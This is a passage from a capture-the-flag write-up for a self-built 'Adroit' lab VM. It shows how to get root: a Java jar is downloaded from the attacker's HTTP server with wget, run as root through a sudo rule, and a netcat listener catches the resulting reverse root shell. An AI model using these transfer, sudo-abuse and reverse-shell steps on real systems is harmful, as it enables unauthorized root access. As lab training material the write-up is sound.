 ## WAY TO ROOT

## Changing compiler level

First we need to change java compiler version of the `testingmyapp` project from `14` to `11`, because the Adroit vm can execute jar file with `11` version

## Export testingmyapp to testingmyapp.jar

- Click on the testingmyapp -> Right click -> Export -> Java -> Runnable JAR file -> Launch configuration -> Explo - testingmyapp -> Finish

## Uploading the testingmyapp.jar to the adroit machine

- My machine

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ python3 -m http.server 8001
  Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
  10.0.2.142 - - [16/Jan/2021 01:08:07] "GET /testingmyapp.jar HTTP/1.1" 200 -
{% endhighlight %}

- Adroit machine

{% highlight sh %}
  writer@adroit:/tmp$ wget http://10.0.2.15:8001/testingmyapp.jar
  --2021-01-15 18:08:08--  http://10.0.2.15:8001/testingmyapp.jar
  Connecting to 10.0.2.15:8001... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 1191 (1.2K) [application/java-archive]
  Saving to: ‘testingmyapp.jar’

  testingmyapp.jar                     100%[====================================================================>]   1.16K  --.-KB/s    in 0s      

  2021-01-15 18:08:08 (25.0 MB/s) - ‘testingmyapp.jar’ saved [1191/1191]
{% endhighlight %}

## Final Step

- Adroit machine

{% highlight sh %}
 writer@adroit:/tmp$ sudo -u root /usr/bin/java -jar /tmp/testingmyapp.jar
{% endhighlight %}

- Adroit machine

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ nc -lvp 4444                                                     
  listening on [any] 4444 ...
  connect to [10.0.2.15] from adroit.local [10.0.2.142] 49644
  /usr/bin/script -qc /bin/bash /dev/null
  root@adroit:/tmp# id
  id
  uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- Adroit vm created by me, i enjoy the Process.
